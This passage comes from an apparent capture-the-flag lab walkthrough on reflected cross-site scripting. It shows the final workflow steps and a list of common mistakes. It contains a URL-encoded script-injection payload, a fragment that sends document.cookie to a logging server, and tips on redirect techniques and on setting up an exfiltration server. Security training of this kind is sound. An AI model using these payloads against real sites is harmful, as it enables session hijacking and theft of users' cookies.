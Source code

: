 ```
┌─────────────────────────────────────────┐
│ 8. Submit to Lab                        │
│    → Submit full URL (not flag)         │
│    → Wait for victim browser            │
│    → Capture real flag from logs        │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ 9. Submit Flag                          │
│    → Extract flag from victim cookie    │
│    → Submit to lab                      │
│    → Lab solved! 🎉                     │
└─────────────────────────────────────────┘
```

---

### 9️⃣ Common Mistakes & Solutions

#### Mistake 1: Submit Flag Instead of URL
```
❌ WRONG: Submit "5pqzbgt7" (your test flag)
✅ RIGHT: Submit full URL payload
```
**Reason**: Lab needs to test with victim browser, not your browser.

#### Mistake 2: Forget URL Encoding
```
❌ WRONG: ?name=<script>alert(1)</script>
✅ RIGHT: ?name=%3Cscript%3Ealert(1)%3C%2Fscript%3E
```
**Solution**: Always URL encode special characters.

#### Mistake 3: Missing encodeURIComponent
```
❌ WRONG: '?c=' + document.cookie
✅ RIGHT: '?c=' + encodeURIComponent(document.cookie)
```
**Reason**: Cookie might contain special chars that break URL.

#### Mistake 4: Using Blocked Technique
```
❌ WRONG: window.open() in lab with popup blocker
✅ RIGHT: Use meta refresh or location redirect
```
**Solution**: Read lab instructions carefully.

#### Mistake 5: Testing Without Server
```
❌ WRONG: Test payload without exfiltration server ready
✅ RIGHT: Setup server first, then test
```
**Solution**: Always have server logging before testing.

---